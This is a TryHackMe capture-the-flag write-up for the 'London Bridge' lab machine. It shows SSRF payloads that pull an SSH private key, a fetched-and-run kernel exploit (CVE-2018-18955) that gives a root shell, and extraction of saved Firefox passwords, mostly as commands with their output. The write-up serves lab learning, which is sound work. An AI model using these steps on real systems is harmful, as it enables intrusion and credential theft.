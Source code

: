 # The London Bridge - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Found SSRF via hidden `www` parameter → SSH key theft → user flag → exploited kernel vulnerability `(CVE-2018-18955)` → root access -> extracted `Charles` password from FireFox profile.
---------------------------
## Target
- Machine: `LondonBridge`  
- Date: `2025-10-19`  
- Environment: TryHackMe / CTF
---------------------------

## Steps 
1. Initial scan:

```bash

└─$ nmap -sV -sC -Pn -T4 londonbridge.thm                             

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Gunicorn
|_http-title: Explore London
|_http-server-header: gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```

2. Directory discovery:

```bash
└─$ gobuster dir -u http://londonbridge.thm:8080/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php,.php.bak,.txt

/contact              (Status: 200) [Size: 1703]
/feedback             (Status: 405) [Size: 178]
/gallery              (Status: 200) [Size: 1722]
/upload               (Status: 405) [Size: 178]
/view_image           (Status: 405) [Size: 178]
/dejaview             (Status: 200) [Size: 823]

```



3. In the dejaview page, we discovered an image upload functionality via URL using the image_url parameter.
![image_url-parameter](images/POST-REQ-View-2.png)
 Following the hint about checking for development leftovers, we fuzzed for hidden parameters.

4. Parameter Discovery with FFuf:

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "FUZZ=test" -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,823 -mc all 


www                     [Status: 500, Size: 290, Words: 37, Lines: 5, Duration: 122ms]

```
Found parameter `www`

-------------------------
### SSRF (Server-Side Request Forgery)


1. Internal Network Mapping

 Using localhost bypass techniques:

Referenced localhost bypass methods from: [SSRF Cheat Sheet](https://highon.coffee/blog/ssrf-cheat-sheet/#basic-locahost-bypass-attempts)

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://FUZZ" -w localhosts.txt -fs 0,823 -mc all -H 'Content-Type: application/x-www-form-urlencoded'


127.1:8080              [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 204ms]
127.0.1                 [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
017700000001            [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 203ms]
0/                      [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1                   [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 376ms]
127.1.1.1:8080#\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080\@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 380ms]
127.1.1.1:8080:\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 394ms]
127.1.1.1:8080\@@127.2.2.2:8080/ [Status: 200, Size: 2682, Words: 871, Lines: 83, Duration: 628ms]

```

`127.1:80` Internal service discovered 

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/"  

```
2. Fuzzing :

```bash
└─$ ffuf -X POST -u "http://londonbridge.thm:8080/view_image" -data "www=http://127.1:80/FUZZ" -w /usr/share/wordlists/dirb/common.txt -H 'Content-Type: application/x-www-form-urlencoded' -fs 0,469 -mc 


.profile                [Status: 200, Size: 807, Words: 128, Lines: 28, Duration: 205ms]
.bashrc                 [Status: 200, Size: 3771, Words: 522, Lines: 118, Duration: 205ms]
                        [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 205ms]
.cache                  [Status: 200, Size: 474, Words: 19, Lines: 18, Duration: 206ms]
.ssh                    [Status: 200, Size: 399, Words: 18, Lines: 17, Duration: 206ms]
index.html              [Status: 200, Size: 1270, Words: 230, Lines: 37, Duration: 351ms]
static                  [Status: 200, Size: 420, Words: 19, Lines: 18, Duration: 150ms]
templates               [Status: 200, Size: 1294, Words: 358, Lines: 44, Duration: 132ms]
uploads                 [Status: 200, Size: 630, Words: 23, Lines: 22, Duration: 228ms]

```
SSH directory accessible!  

```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh"
.
.
<h1>Directory listing for /.ssh/</h1>
<hr>
<ul>
<li><a href="authorized_keys">authorized_keys</a></li>
<li><a href="id_rsa">id_rsa</a></li>
.
.

```
3. Download the private key :
```bash
└─$ curl -X POST http://londonbridge.thm:8080/view_image -d "www=http://127.1:80/.ssh/id_rsa" > id_rsa

chmod 600 id_rsa
```
User Identified: `beth` (from authorized_keys)

----------------

## user flag 

Connect via SSH and get the user flag from `__pycache__`:
```bash
└─$ ssh -i id_rsa beth@londonbridge.thm 


beth@london:~$ cat __pycache__/user.txt 
THM{[REDACTED]}
```

-----------------

## root flag

```bash

beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```


### CVE:2018-18955

Description

In the Linux kernel 4.15.x through 4.19.x before 4.19.2, map_write() in kernel/user_namespace.c allows privilege escalation because it mishandles nested user namespaces with more than 5 UID or GID ranges. A user who has CAP_SYS_ADMIN in an affected user namespace can bypass access controls on resources outside the namespace, as demonstrated by reading /etc/shadow. This occurs because an ID transformation takes place properly for the namespaced-to-kernel direction but not for the kernel-to-namespaced direction.

------------------------

1. Clone the repo in your machine and run python web server

```bash
└─$ git clone https://github.com/scheatkode/CVE-2018-18955.git

└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
 
2. Download it in target machine using `wget -r `

```bash
beth@london:~$ wget -r http://[YOUR_IP]:8000/CVE-2018-18955
```
3. Change the permissions to be exectuable and run `exploit.dbus.sh`

```bash
beth@london:~/CVE-2018-18955$ chmod +x exploit.dbus.sh
beth@london:~/CVE-2018-18955$ ./exploit.dbus.sh 


[*] Launching root shell: /tmp/sh
root@london:/root# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
```
4. get root flag :
```bash
root@london:/root# cat .root.txt 
THM{REDACTED}
```
---------------------------

## password of charles
there firefox profile in `charles` home directory

We gonna use python script to steal firefox passwords 
you can download it from `https://github.com/unode/firefox_decrypt`


1. Download `8k3bf3zp.charles` to your machine via python server.

```bash
root@london:/home/charles/.mozilla/firefox# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
2. In your machine :
```bash
└─$ wget -r http://londonbridge.thm:8000/8k3bf3zp.charles
```
3. After download the profile run the script :
```bash
└─$ python3 firefox_decrypt.py londonbridge.thm:8000/8k3bf3zp.charles 
2025-10-20 06:18:01,266 - WARNING - profile.ini not found in londonbridge.thm:8000/8k3bf3zp.charles
2025-10-20 06:18:01,267 - WARNING - Continuing and assuming 'londonbridge.thm:8000/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '[REDACTED]'
```

 .

